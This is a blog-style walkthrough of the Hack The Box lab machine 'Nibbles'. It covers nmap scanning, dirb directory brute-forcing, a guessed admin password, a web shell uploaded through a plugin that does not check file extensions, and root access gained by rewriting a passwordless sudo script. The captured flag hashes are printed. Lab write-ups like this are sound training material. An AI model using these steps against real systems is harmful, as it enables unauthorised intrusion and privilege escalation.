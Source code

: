 ```yaml
---
title: "Hack-the-box Nibbles"
layout: post
headerImage: false
tag:
- hack-the-box
- walktrhough
category: blog
author: Srbx7
description: Hack-the-box Nibbles walktrhough
---
```



![banner](/assets/images/nibbles.png) 
# Nibbles: 10.10.10.75


## Scanning:

<br>

```bash
nmap 10.10.10.75

Starting Nmap 7.01 ( https://nmap.org ) at 2018-05-05 19:14 EDT
Nmap scan report for 10.10.10.75
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 21.39 seconds
```

<br>

## Gaining Access:

<br>

As always, let's start exploring the HTTP application running on port 80.

Well, nothing interesting there.. Let's use <a href='https://tools.kali.org/web-applications/dirb'>dirb</a> to bruteforce all common known directories as so `dirb 10.10.10.75/nibbleblog/`


__Note: I created a function for calling dirb:__


_~/.zshrc_
```bash
dirb(){
    echo 'HTTPS'
    echo
    /home/srbz/._bin/dirb/dirb https://$1 /home/srbz/._bin/dirb/wordlists/common.txt
    echo 'HTTP'
    echo
    /home/srbz/._bin/dirb/dirb http://$1 /home/srbz/._bin/dirb/wordlists/common.txt
}
```

Apparently, there's no other way to login than guessing. Hack the box usually use the challenge name as the password. 

`username: admin`

`password: nibbles`


<br>

## Maintaining Access:

<br>

Once logged in, we can upload files by using the plugin`my_image.` The vulnerability of that plugin is that it does not verrify the file extension. So, I uploaded my <a href='https://github.com/KevinCarroll7737/tools/blob/master/shell.php'>shell.php</a>


By running <a href='https://github.com/KevinCarroll7737/tools/blob/master/linenum.sh'>linEnum.sh</a>, I've been able to see fast and clearly which files the user `nibbler` had the control of.

```bash
bash linenum.sh

(...)

utching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Ok so we can use `/home/nibbler/personal/stuff/monitor.sh` with sudo without giving password. Let's change what's in this script.

<br>

## Covering Tasks:

<br>

```bash
echo 'cat /root/root.txt > /tmp/srbz.txt; chown nibbler:nibbler /tmp/srbz.txt; chmod 777 /tmp/srbz.txt' >  /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
cat /tmp/srbz.txt
b6d745c0dfb6457c55591efc898ef88c
cat /home/nibbler/user.txt
b02ff32bb332deba49eeaed21152c8d8
```
